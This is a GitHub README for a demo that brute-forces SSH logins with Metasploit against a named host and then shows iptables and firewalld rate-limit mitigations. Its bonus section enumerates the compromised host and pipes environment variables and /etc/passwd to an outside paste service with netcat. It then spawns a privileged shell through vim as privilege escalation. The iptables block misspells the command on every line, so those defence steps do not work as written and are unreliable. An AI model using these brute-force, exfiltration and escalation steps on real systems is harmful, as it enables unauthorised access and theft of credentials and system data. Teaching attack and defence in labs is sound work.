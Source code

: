 # Bruteforcing-SSH
========

This is a demo which will exploit SSH on a linux host. In this demo we also show you how to mitigate the risk using a simple `iptables` rule or by creating a rich-rule in firewalld. Bonus section: Once SSH access is gained, privilege escalation can be used to become root. *Note* this README and demo are both still under developement.


Downloading Dictionary Files
------------

Clone the project on your local system:

    git clone https://github.com/sillihkram/Bruteforcing-SSH.git
    cd Bruteforcing-SSH/

unpack and prepare the list of commonly used users & passwords
    
    gunzip passwords.txt.gz
    cp passwords.txt /tmp/passwords.txt 
    cp users.txt /tmp/users.txt

Just so you are familiar, take at the content and format of the files 
    
    wc -l /tmp/passwords.txt # Notice this is a long list
    head /tmp/passwords.txt
    head /tmp/users.txt
    

# Installing Metasploit (RHEL, Fedora, CentOS)
------------

Download the latest version of Metasploit Framework (OSS)

    curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall

Set Permissions 

    chmod 755 msfinstall

 Run the install script

    ./msfinstall

By default metasploit framework installs it's self to `/opt/` let's take a look and add that to our path
    
    ls /opt/
    echo $PATH

Add the `/opt/metasploit-framework/bin/` directory to our path


    PATH=/opt/metasploit-framework/bin/:$PATH
    # you may want to make this persistant add this line to your .bash_profile


Add Metasploit repo to our system and make sure we have the latest version.

    msfupdate

# Installing Metasploit (Mac)
------------

 Prerequisite:  you need to have home brew installed... https://brew.sh/
    
 Install Metasploit:
 
    brew install metasploit
     

# Using Metasploit
------------

Launch the metasploit framework console

 
    msfconsole


List the available exploit modules for metasploit


    show exploits

Because there are over 2000 modules it may make more sense to search for one we're looking for
 
    search ssh login

For this demo select the auxiliary/scanner/ssh/ssh_login exploit module

    use auxiliary/scanner/ssh/ssh_login


List the options available for this module

    options

Define options for ssh_login module to launch a brute force attack against a target host

    set stop_on_success true
    set pass_file /tmp/passwords.txt
    set user_file /tmp/users.txt
    set threads 10


Define a target
    
    set rhost graffias.openincite.net

Launch the brute force attack

    exploit

if Metasploit successfully authenitcates with a usr/pass provided in the lists you'll see a message similar to the following:

`[+] 192.168.0.136:22 - Success: 'podman:password'`


Not only did metasploit find a combination that successfully authenticates but it also left a session open. List the open sessions

    sessions

To interact with the open session use the sessions command: `sessions -i <session id>`

    sessions -i 1

Now you are connected to a shell on the target. try typing some basic shell commands

    hostname -f
    uname -a
    
    
# Protecting SSH from brute-force attacks
------------


[RHEL 6] 

Ensure iptables is installed:

    sudo yum install iptables -y

Add a simple rule to iptables to drop brute force attacks after an excessive amount of authentication attempts

    itpables -P INPUT ACCEPT
    itpables -P FORWARD ACCEPT
    itpables -P OUTPUT ACCEPT
    itpables -N SSHBFATK
    itpables -A INPUT -p tcp -m tcp --dport 22 -m state --state NEW -m recent --set --name SSH --mask 255.255.255.255 --rsource
    itpables -A INPUT -p tcp -m tcp --dport 22 -m state --state NEW -m recent --update --seconds 600 --hitcount 20 --name SSH --mask 255.255.255.255 --rsource -j SSHBFATK
    itpables -A SSHBFATK -m limit --limit 5/min -j LOG --log-prefix "SSH: Detect brute force atk! " --log-level 6
    itpables -A SSHBFATK -j DROP
    
There is also an ansible playbook to create the above ~iptables~ firewalld rich rule. Try downloading it and running it against the local host:

    curl -LJO https://github.com/sillihkram/Bruteforcing-SSH/raw/main/mitigate-ssh-bruteforce.yaml
 
 [RHEL7/8/9]
 
 In modern Enterprise Linux distributions, firewalld has the ability to filter connections based on rich_rules
 
    sudo firewall-cmd --list-rich-rule
    sudo  firewall-cmd --add-rich-rule='rule family="ipv4" service name="ssh" log prefix="SSH Bruteforce:" level="warning" limit value="6/m" accept limit value="2/m"' # block ssh after 6 attempts per min are made (IPV4).
    firewall-cmd --add-rich-rule='rule service name="ssh" log prefix="SSH Bruteforce:" level="warning" limit value="6/m" accept limit value="6/m"' # block ssh connection after 6 attempts per min are made (IPv4 & IPv6).
    sudo firewall-cmd --reload
    sudo firewall-cmd --list-rich-rule
 
Now run the brute force exploit again and observe the behavior

    exploit
    
Notice our exploit gets blocked after just 6 SSH attempts per min are made. 😎


















# Bonus Material


Enumerating a Host
------------

connect to the target using the discovered credentials

    ssh graffias.openincite.net -l podman
    id
    sudo -l -U podman
    
podman appears to be a non privalaged user. Let's see what we can find out about the system...

    ls -lah $PWD
    firewall-cmd --list-ports >> $HOSTNAME.txt #This requires root
    printenv >> $HOSTNAME.txt 
    cat /etc/passwd >> $HOSTNAME.txt
    yum list installed >> $HOSTNAME.txt
    
Let's grab a copy of the information we've collected 

    cat $HOSTNAME.txt | nc termbin.com 9999
    
privilage escalation 
------------
Use vim to hide our shell

    vim 
    : ! /bin/bash -p
